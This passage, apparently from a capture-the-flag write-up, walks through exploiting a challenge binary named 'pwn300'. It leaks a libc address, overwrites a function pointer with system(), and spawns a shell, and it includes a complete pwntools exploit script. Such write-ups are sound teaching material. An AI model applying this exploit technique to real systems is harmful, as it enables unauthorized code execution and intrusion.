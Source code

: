 ```python
puts_addr = p.recvline()[7:-1]
puts_addr = int(puts_addr[::-1].hex(), 16)
libc_addr = puts_addr - 0x875a0
system_addr = libc_addr + 0x55410
```

Now how do we pass in the input parameters? Using a ROP chain to POP the address of a `/bin/sh` string did not work when I tried it because only one address on the stack gets overwritten. Instead, if we look back at the line of code in Ghidra that executes the function pointer, we can see that the string inside of the buffer we're currently using is always going to be used as an input parameter for the program.

```c
(*names._10000_8_)(names + (ulong)local_14 * 100);
```

In other words, suppose we were to write "/bin/sh" into the 99th index of the array. Then we could use the "print name" option on the 99th index to call our function pointer, which should be overwritten with the address of `system()`. Since this line of code should use whatever we've written into the 99th index of the array, we will therefore be able to call `system("/bin/sh")` and get a shell!

Here is the code that does just that:
```python
#!/usr/bin/env python3
from pwn import *

# Open the process
env = {"LD_PRELOAD": "./libc-2.31.so"}
p = process("./pwn300", env=env)

# Ignore first few lines
for x in range(0, 3):
    p.recvline()

# Leak the address of puts() and calculate offsets
p.sendline("2")
p.sendline("100")
puts_addr = p.recvline()[7:-1]
puts_addr = int(puts_addr[::-1].hex(), 16)
libc_addr = puts_addr - 0x875a0
system_addr = libc_addr + 0x55410

# Set the function parameters
p.sendline("1")
p.sendline("99")
p.sendline("/bin/sh")

# Overwrite puts() pointer and execute
p.sendline("1")
p.sendline("100")
p.sendline(p64(system_addr))
p.sendline("2")
p.sendline("99")
p.interactive()
```
